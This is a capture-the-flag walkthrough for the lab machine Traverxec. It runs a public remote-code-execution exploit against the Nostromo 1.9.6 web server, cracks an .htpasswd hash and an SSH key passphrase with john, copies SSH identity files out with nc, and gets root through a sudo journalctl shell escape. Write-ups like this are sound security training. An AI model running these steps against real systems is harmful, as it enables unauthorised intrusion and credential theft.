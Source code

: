 # Traverxec

## Gaining Access

```
$ nmap -p- --min-rate 5000 10.129.85.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 10:24 EDT
Nmap scan report for 10.129.85.183
Host is up (0.0079s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### David White

Port 80 hosts a Portfolio site for a David White:

<figure><img src="../../../.gitbook/assets/image (10) (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here are the HTTP headers when visiting the site:

```http
HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:25:54 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html
```

This version of Nostromo has an RCE vulnerability:

```
$ searchsploit nostromo             
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (M | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command | linux/remote/35466.sh
----------------------------------------------------------- ---------------------------------
```

We can verify that it works by running it:

```
$ python2 47837.py 10.129.85.183 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:31:57 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell by using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (39) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Public WWW

We can't capture the user flag yet. Within the `/var/nostromo` directory, there are some `conf` folders.

```
www-data@traverxec:/var/nostromo$ ls -la
total 24
drwxr-xr-x  6 root     root   4096 Oct 25  2019 .
drwxr-xr-x 12 root     root   4096 Oct 25  2019 ..
drwxr-xr-x  2 root     daemon 4096 Oct 27  2019 conf
drwxr-xr-x  6 root     daemon 4096 Oct 25  2019 htdocs
drwxr-xr-x  2 root     daemon 4096 Oct 25  2019 icons
drwxr-xr-x  2 www-data daemon 4096 May  4 10:22 logs

www-data@traverxec:/var/nostromo/conf$ ls -la
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27  2019 .
drwxr-xr-x 6 root root   4096 Oct 25  2019 ..
-rw-r--r-- 1 root bin      41 Oct 25  2019 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25  2019 mimes
-rw-r--r-- 1 root bin     498 Oct 25  2019 nhttpd.conf
```

We can try to crack the hash within `.htpasswd`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:00:41 DONE (2023-05-04 10:36) 0.02395g/s 253371p/s 253371c/s 253371C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Afterwards, we can read the configuration files.

```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

I searched a bit on Nostromo and this configuration, and this:

{% embed url="https://book.dragonsploit.com/web-application-testing/nostromo" %}

Basically, this allows for us to view the user's home directory by accessing `~david`. When accessed, this is what I get:

<figure><img src="../../../.gitbook/assets/image (40) (7).png" alt=""><figcaption></figcaption></figure>

There was also a hint that a `public_www` exists in the user's directory.&#x20;

```
www-data@traverxec:/var/nostromo$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

Within this, there was a file that contained SSH Identity files.

```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

I transferred this back to my machine via `nc`, and then opened it with `tar`.&#x20;

```
$ tar zxvf backup.tgz       
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

The `id_rsa` key was password protected, but since we have a password from earlier, we can `ssh2john` > `john` it.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2023-05-04 10:42) 100.0g/s 16000p/s 16000c/s 16000C/s carolina..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can use `openssl` with the password to write it and SSH in.

```
$ openssl rsa -in id_rsa -out decrypted        
Enter pass phrase for id_rsa:
writing RSA key
$ chmod 600 decrypted; ssh -i decrypted david@10.129.85.183
```

### Root Shell

There are some interesting files within the user's home directory.

```
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

Here's the `bash` script contents:

```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It seems that the user can execute `sudo` for `journalctl`. Based on GTFOBins, we just need to run this.&#x20;

```bash
sudo journalctl
!/bin/sh
```

However, because we don't have the credentials to run `sudo`, what we can do is execute the `sudo` command and then run `!/bin/sh`.

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (22) (4).png" alt=""><figcaption></figcaption></figure>
